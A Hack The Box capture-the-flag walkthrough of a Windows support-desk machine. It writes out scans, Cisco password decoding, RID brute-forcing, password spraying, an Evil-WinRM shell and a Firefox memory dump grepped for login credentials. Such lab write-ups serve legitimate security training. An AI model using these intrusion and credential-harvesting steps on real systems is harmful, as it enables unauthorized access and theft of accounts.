This box is rated easy difficulty on HTB. It involves us finding a Support site that allows guest logins. On the site, we read a chat history between a user and an admin that contains a Cisco router configuration file attached. Cracking the hash and decoding passwords found within lets us spray credentials against a list of usernames found via RID brute-forcing. Finally, we discover that Firefox is installed on the machine and can recover Administrator credentials by dumping process memory and parsing it for POST requests.

## Host Scanning
I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP returns nothing.

```
$ sudo nmap -p80,135,445,5985,49669 -sCV 10.129.96.157 -oN fullscan-tcp

Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-01 20:06 -0400
Nmap scan report for 10.129.96.157
Host is up (0.058s latency).

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Support Login Page
|_Requested resource was login.php
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-04-02T00:06:55
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.99 seconds
```

There are a total of five ports open:
- A Microsoft IIS web server on port 80
- RPC on ports 135 and 49669
- SMB on port 445
- WinRM on port 5985

## Initial Enumeration
Testing for Guest/Null authentication over SMB shows that it has been disabled, which really just leaves us with exploiting the web application. 



### Support Website
I fire up Ffuf to search for subdirectories and Vhosts in the background before heading over to the site.

```
$ ffuf -u http://10.129.96.157/FUZZ -w /opt/seclists/directory-list-2.3-medium.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.96.157/FUZZ
 :: Wordlist         : FUZZ: /opt/seclists/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 301, Size: 151, Words: 9, Lines: 2, Duration: 52ms]
css                     [Status: 301, Size: 148, Words: 9, Lines: 2, Duration: 55ms]
js                      [Status: 301, Size: 147, Words: 9, Lines: 2, Duration: 55ms]
attachments             [Status: 301, Size: 156, Words: 9, Lines: 2, Duration: 56ms]

:: Progress: [220546/220546] :: Job [1/1] :: 709 req/sec :: Duration: [0:05:20] :: Errors: 0 ::
```

Checking out the landing page shows a login portal for some time of support service. Attempting default credentials such as admin:admin or other common passwords does not work to authenticate.



We are allowed to login as a guest and doing so reveals a chat history between the Support Admin and a user named Hazard. This conversation describes an issue that the person has been having with their Cisco router and attached is a portion of the configuration file.



### Cracking Passwords
I copy the link and download the text file via cURL to get a closer look at it.

```
$ curl -s http://10.129.96.157/attachments/config.txt -o config.txt
                                                                                                          
$ cat config.txt                                                   
version 12.2
no service pad
service password-encryption
!
isdn switch-type basic-5ess
!
hostname ios-1
!
security passwords min-length 12
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
!
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
!
!
ip ssh authentication-retries 5
ip ssh version 2
!
!
router bgp 100
 synchronization
 bgp log-neighbor-changes
 bgp dampening
 network 192.168.0.0 mask 300.255.255.0
 timers bgp 3 9
 redistribute connected
!
ip classless
ip route 0.0.0.0 0.0.0.0 192.168.0.1
!
!
access-list 101 permit ip any any
dialer-list 1 protocol ip list 101
!
no ip http server
no ip http secure-server
!
line vty 0 4
 session-timeout 600
 authorization exec SSH
 transport input ssh
```

Towards the top of the file, we find an MD5crypt hash along with a few Cisco type 7 encoded passwords for the router and admin logins. If we save that hash to a file and send it over to Hashcat or JohnTheRipper, we're able to crack it, retrieving the plaintext password.



As for the Cisco type 7 encoded passwords, we can search online for tools that will decode them. I find this [Github repository](https://github.com/ilneill/Py-CiscoT7/blob/master/src/Py-CiscoT7.py) that conveniently encodes and decodes strings given so that we can grab these passwords as well.



## SMB Exploitation
Using the password recovered from the MD5crypt hash on the main page's login with the username of Hazard from the Support issues page fails. Because my scans didn't find any other interesting directories, particularly to use these credentials at, I swap back to SMB.

Netexec reveals that this password succeeds with the Hazard account, however doesn't have access to any non-standard SMB shares or the capability to WinRM onto the machine.



Although we have authentication, we're not able to do much on this account since it isn't apart of the Remote Management group that can get a shell over WinRM. For that reason, I'll brute force RIDs to find other valid account names on the domain and spray this password against them.

### RID Brute-Forcing Accounts
If you're unfamiliar with this technique - RID brute forcing over SMB works by querying a target system's SID (Security Identifier) and then iterating through possible Relative Identifiers (RIDs), which map to individual user or group accounts. By sending lookup requests (e.g., via LSARPC over SMB), the system may return the corresponding account names for valid RIDs even without authentication or with low privileges. This allows an attacker to enumerate valid usernames on the system, which can later be used for password attacks or further enumeration.

An SID (Security Identifier) is the full unique identifier for a security principal, while an RID (Relative Identifier) is just the last portion that identifies a specific account within that SID namespace. For example, in the `SID S-1-5-21-123456789-123456789-123456789-1001`, the entire string is the SID, and `1001` is the RID-pointing to a specific user on that system or domain.

Knowing that, we can use the `--rid-brute` flag in Netexec/CrackMapExec to carry out this enumeration technique and discover valid accounts. If we wish to extend the range at which the tool searches, supplying a number after the flag will determine the maximum RID number it will attempt to search for.

```
$ nxc smb 10.129.96.157 -u 'Hazard' -p '[REDACTED]' --rid-brute 2000
SMB         10.129.96.157   445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:None)
SMB         10.129.96.157   445    SUPPORTDESK      [+] SupportDesk\Hazard:[REDACTED]
SMB         10.129.96.157   445    SUPPORTDESK      500: SUPPORTDESK\Administrator (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      501: SUPPORTDESK\Guest (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      503: SUPPORTDESK\DefaultAccount (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      513: SUPPORTDESK\None (SidTypeGroup)
SMB         10.129.96.157   445    SUPPORTDESK      1008: SUPPORTDESK\Hazard (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      1009: SUPPORTDESK\support (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      1012: SUPPORTDESK\Chase (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      1013: SUPPORTDESK\Jason (SidTypeUser)
```

### Password Spraying
This returns three user accounts on the SupportDesk domain with the names of support, Chase, and Jason. Next, I create a list of usernames and the passwords from earlier which will be used in a password spraying attack to see if any of them authenticate. I would usually check the password policy with someone's credentials to see if we have to worry about account lockouts with Netexec's --pass-pol option, but this machine is not domain-joined so it's not a problem.

```
$ nxc smb 10.129.96.157 -u users.txt -p passwords.txt --continue-on-success
```



That returns a valid login for Chase's account using one of the Cisco type 7 decoded passwords. Checking to see if this user has WinRM privileges shows that we can grab a shell with tools like [Evil-WinRM](https://github.com/hackplayers/evil-winrm).

```
$ nxc winrm 10.129.96.157 -u 'chase' -p '[REDACTED]'

$ evil-winrm -i 10.129.96.157 -u 'chase' -p '[REDACTED]'
```



At this point, we can grab the user flag under his Desktop folder and start internal enumeration to escalate privileges to Administrator.

## Privilege Escalation
There is a ToDo text file alongside the first flag, however this just serves as a reminder to fix the router config and keep checking on the support site's issues page. Displaying our current account privileges doesn't reveal anything interesting that we can leverage so I focus on the filesystem.

While enumerating Chase's home directory, I discover a Mozilla Firefox folder within the AppData directory, which is intriguing since it is not the standard for Windows. I discovered this by searching for hidden files recursively and while it clutters the screen with tons of stuff, it can be invaluable for finding stuff like this.

```
*Evil-WinRM* PS C:\Users\Chase> dir -r -Force
```



### File Decrypt Failure
We can use a tool such as [Firefox-Decrypt](https://github.com/unode/firefox_decrypt/blob/main/firefox_decrypt.py) to retrieve stored passwords in these files after transferring them to our local machine. 

```
$ python3 firefox_decrypt.py .
```



This doesn't return anything and after further research, Firefox stores encrypted login credentials in a file named `logins.json` that can be decrypted with `key4.db`. This profile lacked the logins files so we're left with nothing.

### Memory Dump
Confused as to what we were supposed to exploit here, I took a step back and upload WinPEAS to find any other attack vectors which didn't show much else on the system. I decide to do some more research on ways to gather credentials via Firefox and come across this [great article](https://infosecwriteups.com/browsers-secret-diary-memory-dumps-unveiled-6b8185156674) that describes a way to extract credentials sent in POST requests from the machine's memory.

To carry out this attack, we need to dump the Firefox process from memory and parse it to find any instance of a POST request being made to the Support service site. I will use Powersploit's [Out-Minidump.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1) script to carry out this step.

I start by uploading the the script, importing the `.ps1` file, and running it against one of the Firefox process IDs. We can find a list of these ID numbers by using the `Get-Process` PowerShell command against the Firefox service.

```
*Evil-WinRM* PS C:\temp> upload ~/Downloads/Out-Minidump.ps1
                                        
Info: Uploading /home/kali/Downloads/Out-Minidump.ps1 to C:\temp\Out-Minidump.ps1
                                        
Data: 4820 bytes of 4820 bytes copied
                                        
Info: Upload successful!

*Evil-WinRM* PS C:\temp> Get-Process firefox

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    355      25    16408      38496       0.16    796   1 firefox
   1065      69   146892     223304       6.64   6548   1 firefox
    347      19    10184      35660       0.19   6672   1 firefox
    401      33    31548      91176       0.98   6800   1 firefox
    378      28    21936      58244       0.44   7068   1 firefox

*Evil-WinRM* PS C:\temp> . .\Out-Minidump.ps1

*Evil-WinRM* PS C:\temp> Out-Minidump -Process (Get-Process -Id 796)

    Directory: C:\temp

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         4/2/2026   7:13 AM      304578457 firefox_796.dmp

*Evil-WinRM* PS C:\temp> download firefox_796.dmp
                                        
Info: Downloading C:\temp\firefox_796.dmp to firefox_796.dmp
                                        
Info: Download successful!
```

After downloading that to my local machine, I grep through the file, searching for any lines that contain "password".

```
$ grep -ai password firefox_796.dmp
```

Since this dump is from memory, we have to treat it differently from other plaintext files.
- The `-a` flag forces grep to treat binary files as text
- The `-i` flag returns the line in which the specified word is in



That outputs a ton of info, but we can find a POST request from localhost containing credentials for the administrator on the Support site. It also seems this was stored in a Crash Reporter directory.

Testing that password for the machine's administrator over WinRM as well succeeds and we're granted a shell on the system with full privileges.



Grabbing the final flag under their Desktop folder completes this challenge. Overall, I enjoyed this box as it covered some lesser-known techniques and tactics. I hope this was helpful to anyone following along or stuck and happy hacking!
